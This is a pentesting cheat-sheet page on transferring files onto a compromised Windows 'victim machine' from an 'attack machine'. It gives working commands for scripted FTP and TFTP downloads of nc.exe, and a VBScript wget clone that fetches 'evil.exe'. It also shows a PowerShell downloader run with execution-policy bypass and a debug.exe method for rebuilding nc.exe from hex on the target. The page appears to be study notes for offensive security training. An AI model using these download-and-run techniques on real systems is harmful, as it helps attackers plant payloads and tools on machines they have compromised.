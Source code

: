 # Windows basics

## Transferring files

Why is this so much harder in Windows? I don't know.

## FTP

Even though many Windows versions have FTP clients, we can't use them interactively because it will kill shells. But we can run multiple commands from a file and download them from an FTP server like `pure-ftpd`on the attack machine.

On the victim machine, echo the following commands into a file:

```text
echo open [attack machine]> ftp.txt
echo bob>> ftp.txt
echo bob>> ftp.txt
echo binary>> ftp.txt
echo GET nc.exe>> ftp.txt
echo bye>> ftp.txt
```

Then run this command to connect:

```text
ftp -s:ftp.txt
```

## TFTP

TFTP is installed by default on Windows XP and Windows 2003. Kali also has a TFTP server:

```text
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

With this command you can serve files from `/srv/tftp`.

From a Windows machine, use this to transfer files:

```text
tftp -i [host] get nc.exe
```

### VBScript

Here is a good script to make a wget-clone in VB \(may need to be piped through unix2dos before copying it\):

```text
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

To execute:

```text
cscript wget.vbs http://[hoste]/evil.exe evil.exe
```

### Powershell

Powershell can't be started in a non-interactive shell. But this script can start it:

```text
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://[host]/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

To execute:

```text
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

### Debug.exe

On windows 32 bit machines, it is possible to use `debug.exe` to transfer programs. It is used to inspect binaries, like a debugger, but can also rebuild them from hex. For example, a binary like `nc.exe` can be disassembled into hex, pasted into a file on the victim machine, and then assembled with `debug.exe`.

`Debug.exe` can only assemble 64 kb, use upx to compress the executable:

```text
upx -9 nc.exe
```

To disassemble:

```text
wine exe2bat.exe nc.exe nc.txt
```

Pasting that into the Windows shell will create nc.exe

